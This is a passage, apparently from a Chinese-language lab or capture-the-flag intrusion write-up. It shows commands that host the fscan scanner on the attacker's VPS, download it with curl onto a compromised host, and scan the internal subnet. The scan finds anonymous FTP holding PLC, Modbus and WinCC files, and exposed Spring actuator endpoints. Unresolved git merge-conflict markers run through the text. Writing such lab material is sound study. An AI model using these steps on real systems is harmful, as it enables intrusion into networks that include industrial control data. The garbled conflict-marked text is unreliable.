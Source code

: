 ```plain
        TX packets 628  bytes 53814 (53.8 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

`curl ip.info` 测试是否出网。可访问互联网，上传 fscan：

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
# YOUR-VPS
python3 -m http.server <YOUR-VPS-PORT>
```

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
# 172.22.17.213
curl http://<YOUR-VPS-IP>:<YOUR-VPS-PORT>/fscan --output fscan
chmod +x ./fscan
```

fscan 内网信息收集：

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
./fscan -h 172.22.17.213/24 -np -nobr
-----
172.22.17.213:8080 open
172.22.17.6:445 open
172.22.17.6:139 open
172.22.17.6:135 open
172.22.17.6:80 open
172.22.17.6:21 open
172.22.17.213:22 open
<<<<<<< HEAD
[*] WebTitle http://172.22.17.213:8080 code:302 len:0      title:None 跳转url: http://172.22.17.213:8080/login;jsessionid=6F1E3BB703935624E3EF2C176AA6F913
=======
[*] WebTitle http://172.22.17.213:8080 code:302 len:0      title:None 跳转 url: http://172.22.17.213:8080/login;jsessionid=6F1E3BB703935624E3EF2C176AA6F913
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
[*] NetInfo 
[*]172.22.17.6
   [->]WIN-ENGINEER
   [->]172.22.17.6
[*] NetBios 172.22.17.6     WORKGROUP\WIN-ENGINEER        
[*] WebTitle http://172.22.17.213:8080/login;jsessionid=6F1E3BB703935624E3EF2C176AA6F913 code:200 len:2936   title:火创能源监控画面管理平台
[+] ftp 172.22.17.6:21:anonymous 
   [->]Modbus
   [->]PLC
   [->]web.config
   [->]WinCC
   [->]内部软件
   [->]火创能源内部资料
[*] WebTitle http://172.22.17.6        code:200 len:661    title:172.22.17.6 - /
[+] PocScan http://172.22.17.213:8080 poc-yaml-spring-actuator-heapdump-file 
[+] PocScan http://172.22.17.213:8080 poc-yaml-springboot-env-unauth spring2
```
